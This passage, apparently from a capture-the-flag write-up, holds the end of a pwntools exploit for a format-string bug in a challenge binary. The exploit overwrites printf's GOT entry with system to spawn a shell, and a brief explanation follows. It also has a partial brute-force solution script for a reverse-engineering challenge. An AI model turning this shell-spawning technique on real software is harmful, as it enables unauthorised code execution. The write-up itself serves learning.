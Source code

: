 ```python
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

io.recvline()

writes = { exe.got["printf"]: exe.plt["system"] }
payload = fmtstr_payload(8, writes=writes, write_size="byte")
io.sendline(payload)
io.sendline("/bin/sh;")

io.interactive()
# dctf{857ee5051eeccf7cbdfa0ab9986d32f89158429fc12348e15419a969ddcb6bfb}
```

Format string vuln. Read + printf called in a loop. We use the first `printf()` call to overwrite `printf@GOT` with `system` (we have `system` in the PLT). The second `printf()` will then execute whatever we send after the format string payload.

## Reverse engineering
### secret-reverse
This binary opens up a file `message.txt` and prints out the encoded version of it. 
Our target is to find some message contents, such that the encoded content becomes `46004746409548141804243297904243125193404843946697460795444349`. 

I quickly noticed that the output was of variable length, with only 1-2 letters output per input letter. With this, I brute-forced 2 and 2 letters at the time, picking the encoded message that was the closest match with the target.

The original message was: `yes_i_am_a_criminal_mastermind_beaware`. Thus the flag becomes: `ctf{9b9972e4d59d0360b5f1b80a5bbd76c05d75df5b636576710a6271c668a10ac5}`

Solution script:
```python
from subprocess import check_output, CalledProcessError
from string import printable, ascii_lowercase
from itertools import product
from hashlib import sha256

ALPHA = ascii_lowercase +"_"
TARGET = "46004746409548141804243297904243125193404843946697460795444349"

def run(s):
    with open("message.txt","w") as fd: fd.write(s)
    try:
        out = check_output(["./rev_secret_secret.o"])
        return out.strip().split(b"Encoded:  ")[1].decode()
    except CalledProcessError:
        print(f"Input {s} crashed")
        return ""

def score(s1, s2):
    for i in range(min([len(s1),len(s2)])):
        if s1[i] != s2[i]:
            return i
```